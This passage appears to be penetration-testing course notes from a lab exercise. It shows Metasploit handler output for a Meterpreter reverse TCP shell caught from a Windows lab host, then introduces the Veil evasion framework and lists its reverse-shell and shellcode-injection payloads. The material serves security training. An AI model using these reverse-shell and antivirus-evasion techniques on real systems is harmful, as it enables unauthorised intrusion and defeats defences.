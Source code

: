 Reviewing our multi/handler window, it shows that we successfully received a Meterpreter shell
```
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened (192.168.50.1:443 -> 192.168.50.62:52273)...

meterpreter > shell
Process 6832 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.739]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec\Desktop>whoami
whoami
client01\offsec
```
+ We've launched an interactive Windows shell session and verified that we actually landed on the target machine as the _offsec_ user

#### Veil Framework 

The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on the open source **Veil framework** to help us automate this process
![[Screenshot 2023-11-02 at 2.11.05 PM.png]]
+ Will use the evasion tools using `use 1`
+ can then list available payloads with `list`:
```
 [*] Available Payloads:

	1)	autoit/shellcode_inject/flat.py

	2)	auxiliary/coldwar_wrapper.py
	3)	auxiliary/macro_converter.py
	4)	auxiliary/pyinstaller_wrapper.py

	5)	c/meterpreter/rev_http.py
	6)	c/meterpreter/rev_http_service.py
	7)	c/meterpreter/rev_tcp.py
	8)	c/meterpreter/rev_tcp_service.py

	9)	cs/meterpreter/rev_http.py
	10)	cs/meterpreter/rev_https.py
	11)	cs/meterpreter/rev_tcp.py
	12)	cs/shellcode_inject/base64.py
	13)	cs/shellcode_inject/virtual.py

	14)	go/meterpreter/rev_http.py
	15)	go/meterpreter/rev_https.py
	16)	go/meterpreter/rev_tcp.py
	17)	go/shellcode_inject/virtual.py

	18)	lua/shellcode_inject/flat.py

	19)	perl/shellcode_inject/flat.py

	20)	powershell/meterpreter/rev_http.py
	21)	powershell/meterpreter/rev_https.py
	22)	powershell/meterpreter/rev_tcp.py
	23)	powershell/shellcode_inject/psexec_virtual.py
```